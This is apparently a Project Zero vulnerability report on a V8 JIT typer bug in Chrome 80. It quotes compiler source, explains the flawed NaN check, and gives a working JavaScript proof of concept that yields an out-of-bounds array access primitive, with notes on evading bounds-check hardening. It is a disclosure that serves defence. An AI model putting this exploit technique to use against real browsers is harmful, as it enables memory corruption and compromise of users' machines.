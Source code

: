 <b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/compiler/typer.cc?rcl=25c49d2bd6cbdc72b0779545d2a32406657befda&l=845
```
Type Typer::Visitor::TypeInductionVariablePhi(Node* node) {
[...]
  const bool both_types_integer = initial_type.Is(typer_->cache_->kInteger) &&
                                  increment_type.Is(typer_->cache_->kInteger);
  bool maybe_nan = false;
  // The addition or subtraction could still produce a NaN, if the integer
  // ranges touch infinity.
  if (both_types_integer) {
    Type resultant_type =
        (arithmetic_type == InductionVariable::ArithmeticType::kAddition)
            ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)
            : typer_->operation_typer()->NumberSubtract(initial_type,
                                                        increment_type);
    maybe_nan = resultant_type.Maybe(Type::NaN()); // *** 1 ***
  }

[...]

  if (arithmetic_type == InductionVariable::ArithmeticType::kAddition) {
    increment_min = increment_type.Min();
    increment_max = increment_type.Max();
  } else {
    DCHECK_EQ(InductionVariable::ArithmeticType::kSubtraction, arithmetic_type);
    increment_min = -increment_type.Max();
    increment_max = -increment_type.Min();
  }

  if (increment_min >= 0) {
[...]
  } else if (increment_max <= 0) {
[...]
  } else {
    // Shortcut: If the increment can be both positive and negative,
    // the variable can go arbitrarily far, so just return integer.
    return typer_->cache_->kInteger; // *** 2 ***
  }
```

https://chromium.googlesource.com/v8/v8.git/+/b8b6075021ade0969c6b8de9459cd34163f7dbe1 is a fix for
a security issue in the implementation of loop variable analysis. The patch makes the typer
recognize cases where in statements like `for (var i = start; i < ...; i += increment) { ... }` the
loop variable can become `NaN` because `start` and `increment` are `Infinity` values of differing
sign[1].

Unfortunately, the introduced check is not sufficient to catch all loops that can produce `NaN`. The
code assumes that when the increment variable can be both positive and negative, the result type
will be `kInteger` (which doesn't include `NaN`). However, since the value of `increment` can be
changed from inside the loop body, it's possible, for example, to keep subtracting from `i` until it
reaches `-Infinity`, and then set `increment` to `+Infinity`. This will make `i` become `NaN` in the
next iteration of the loop.


<b>VERSION</b>
Google Chrome 80.0.3987.87 (Official Build) (64-bit)
Chromium 82.0.4055.0 (Developer Build) (64-bit)


<b>REPRODUCTION CASE</b>
```
<script>
function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024);
  value = -value;
  value = Math.max(value, -1025);
  value = -value;
  value -= 1022;
  value >>= 1; // *** 3 ***
  value += 10; //

  var array = Array(value);
  array[0] = 1.1;
  return [array, {}];
};

for (let i = 0; i < 20000; ++i) {
  trigger();
}

console.log(trigger()[0][11]);
</script>
```

Previously, the go-to exploitation technique for typer bugs was to make the compiler eliminate array
bounds checks based on incorrect type information and thus trigger OOB access. The technique no
longer works due to the hardening landed at https://bugs.chromium.org/p/v8/issues/detail?id=8806.

The proof-of-concept code above uses a different approach. The idea is to construct a JSArray for
which the `length` field is larger than the capacity of its backing store. An attacker can abuse
`ReduceJSCreateArray` optimization to achieve that:

https://cs.chromium.org/chromium/src/v8/src/compiler/js-create-lowering.cc?rcl=127c33f058f9fa2a28d17ea27094242666e033cd&l=611
```
Reduction JSCreateLowering::ReduceJSCreateArray(Node* node) {
[...]
  } else if (arity == 1) {
    Node* length = NodeProperties::GetValueInput(node, 2);
    Type length_type = NodeProperties::GetType(length);
    if (!length_type.Maybe(Type::Number())) {
      // Handle the single argument case, where we know that the value
      // cannot be a valid Array length.
      elements_kind = GetMoreGeneralElementsKind(
          elements_kind, IsHoleyElementsKind(elements_kind) ? HOLEY_ELEMENTS
                                                            : PACKED_ELEMENTS);
      return ReduceNewArray(node, std::vector<Node*>{length}, *initial_map,
                            elements_kind, allocation,
                            slack_tracking_prediction);
    }
    if (length_type.Is(Type::SignedSmall()) && length_type.Min() >= 0 &&
        length_type.Max() <= kElementLoopUnrollLimit &&
        length_type.Min() == length_type.Max()) { // *** 4 ***
      int capacity = static_cast<int>(length_type.Max()); // *** 5 ***
      return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                            allocation, slack_tracking_prediction);
```

When the `length` argument is proven to be a tiny integer[4], the optimizer will use the predicted
value to allocate the backing store[5], but will use the actual value to initialize the `length`
field of the array.

The attacker also needs to prevent constant folding of the incorrectly typed variable. Once the
possible range of the variable gets shrunk to a single value, the exploit may only use ineliminable
nodes (for example, the PoC calls `SpeculativeNumberShiftRight` and `SpeculativeSafeIntegerAdd`).

As a result, the attacker will obtain a similar OOB access primitive, which is extremely convenient
for exploitation.


<b>CREDIT INFORMATION</b>
Sergei Glazunov of Google Project Zero


This bug is subject to a 90 day disclosure deadline. After 90 days elapse, the bug report will
become visible to the public. The scheduled disclosure date is 2020-05-11. Disclosure at an earlier
date is also possible if agreed upon by all parties.
